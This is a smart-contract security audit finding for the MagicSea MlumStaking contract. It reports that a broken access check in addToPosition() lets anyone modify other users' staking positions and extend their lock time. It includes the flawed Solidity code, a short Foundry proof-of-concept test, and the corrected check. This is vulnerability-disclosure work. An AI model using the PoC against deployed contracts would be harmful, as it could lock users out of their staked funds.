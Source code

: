 Future Mandarin Unicorn

High

# Users' position in MlumStaking can be extended by malicious users

## Summary
Function addToPosition() aims to be only called by owner or operators. However, anyone can call addToPosition(). This will cause users' position can be impacted by malicious users, maybe extend the locking time.

## Vulnerability Detail
In MlumStaking, NFT owner or operators can add some amount into one position. There is one require to make sure that only owner or operators of the NFT can call this function.
The vulnerability is that this require does not work. The first parameter of _isAuthorized() should be NFT's owner. We use msg.sender, this will cause _isAuthorized()'s return value will be always true. 

```javascript
    function addToPosition(uint256 tokenId, uint256 amountToAdd) external override nonReentrant {
        _requireOnlyOperatorOrOwnerOf(tokenId);
        require(amountToAdd > 0, "0 amount"); // addToPosition: amount cannot be null
       ......
    }
    function _requireOnlyOperatorOrOwnerOf(uint256 tokenId) internal view {
        // isApprovedOrOwner: caller has no rights on token
   ==>require(ERC721Upgradeable._isAuthorized(msg.sender, msg.sender, tokenId), "FORBIDDEN");
    }
    function _isAuthorized(address owner, address spender, uint256 tokenId) internal view virtual returns (bool) {
        return
            spender != address(0) &&
            (owner == spender || isApprovedForAll(owner, spender) || _getApproved(tokenId) == spender);
    }
```
### Poc
Alice adds one position, and bob can call addToPosition() for alice's position.
```javascript
    function testPocAddToPosition() public {
        _stakingToken.mint(ALICE, 2 ether);
        _stakingToken.mint(BOB, 4 ether);

        vm.startPrank(ALICE);
        _stakingToken.approve(address(_pool), 1 ether);
        _pool.createPosition(1 ether, 1 days);
        vm.stopPrank();

        vm.startPrank(BOB);
        _stakingToken.approve(address(_pool), 4 ether);
        _pool.addToPosition(1, 1 ether);
        //_pool.createPosition(1 ether, 0.2 days);
        vm.stopPrank();
    }
```
## Impact
Anyone can change one position via addToPosition(). Malicious users may call addToPosition() to extend the timelock. Stakers may not withdraw their funds as expected.

## Code Snippet
https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/MlumStaking.sol#L397-L428
## Tool used

Manual Review

## Recommendation
```javascript
    function _requireOnlyOperatorOrOwnerOf(uint256 tokenId) internal view {
        // isApprovedOrOwner: caller has no rights on token
        require(ERC721Upgradeable._isAuthorized(_ownerOf(tokenId), msg.sender, tokenId), "FORBIDDEN");
    }
```